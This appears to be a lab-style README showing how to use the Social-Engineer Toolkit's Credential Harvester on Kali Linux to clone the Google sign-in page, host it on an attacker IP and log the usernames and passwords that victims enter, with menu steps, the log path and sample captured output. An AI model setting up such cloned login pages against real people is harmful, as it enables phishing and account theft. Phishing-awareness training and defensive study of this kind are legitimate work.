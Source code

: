 # Credential Harvesting with Social-Engineer Toolkit (SET)

This document outlines the use of SET’s Credential Harvester module to capture login credentials via a cloned web interface.

---

## 🛠 Environment Setup

- *Operating System*: Kali Linux (2024.x)
- *Tool Used*: Social-Engineer Toolkit (SET) v8.0.3
- *Module*: Social-Engineering Attacks → Website Attack Vectors → Credential Harvester Attack Method

---

## 🔧 Configuration Steps

1. *Start SET*:
   ```bash
   sudo setoolkit

   
2. Navigate through SET Menu

Main Menu Options:

1) Social-Engineering Attacks

2) Website Attack Vectors

3) Credential Harvester Attack Method

2) Site Cloner

3. Enter Attack Configuration

Attacker's IP Address (for reverse connection):

192.168.1.xx

URL to clone (target site):

https://accounts.google.com/


SET now clones the target page and hosts it locally.


---

🧪 Phishing Simulation

1. Victim accesses the attacker's IP through a browser:

http://192.168.1.xx


2. Victim is shown a cloned Google login page.


3. Credentials entered by the victim are captured and logged by SET.




---

📂 Logs and Output

Captured credentials are stored in:

/root/.set/reports/<timestamp>/harvester.txt

Sample Logged Output:

[*] WE GOT A HIT! Printing the output:
USERNAME: victimemail@gmail.com
PASSWORD: fakepassword123


---
